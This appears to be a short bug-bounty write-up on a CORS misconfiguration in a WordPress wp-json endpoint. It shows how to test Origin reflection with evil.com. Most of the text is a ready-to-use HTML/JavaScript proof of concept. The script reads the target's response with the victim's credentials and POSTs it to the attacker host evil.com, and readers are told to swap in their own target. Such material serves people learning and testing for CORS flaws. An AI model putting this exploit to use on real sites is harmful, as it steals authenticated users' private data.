

CORS Misconfiguration allows a malicious web page to steal information.
Let's start by explaining a bit about CORS (Cross-origin resource sharing).
CORS is a browser mechanism that enables browsers to perform cross domain requests to third party domains.
A lot of times I start by brute forcing filenames and directories as part of my methodology. While scanning I found an wp-json endpoint that was vulnerable to CORS misconfiguration.
Origin: evil.comWhat's a clear indication that this endpoint is vulnerable to this vulnerability?
After you find the vulnerable endpoint, Look for the Origin Header in the request, add evil.com to the header and send the request, if the malicious site reflects in the Access-Control-Allow-Origin header in the response then it's vulnerable.
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Authorization, Content-Type
Access-Control-Allow-Methods: OPTIONS, GET, POST, PUT, PATCH, DELETE
Access-Control-Allow-Origin: http://evil.com
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages
You can also build a simple PoC for this vulnerability:
<!DOCTYPE html>
<html>
<body>
<center>
<h3>Information Data Leak</h3>
<button type='button' onclick='cors()'>Exploit</button>
<p id='demo'></p>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
var a = this.responseText; // Sensitive data from target
document.getElementById("demo").innerHTML = a;
xhttp.open("POST", "http://evil.com", true); // Send to attacker
xhttp.withCredentials = true;
console.log(a);
xhttp.send("data="+a);
}
};
xhttp.open("GET", "https://target.com/wp-json/", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>
</body>
</html>Just change xhttp.open("GET", "https://target.com/wp-json/", true); to your target.
An attacker can embed a malicious site with exploits that will fetch sensitive information from the victim's site.
This is another solid bug with a decent payout.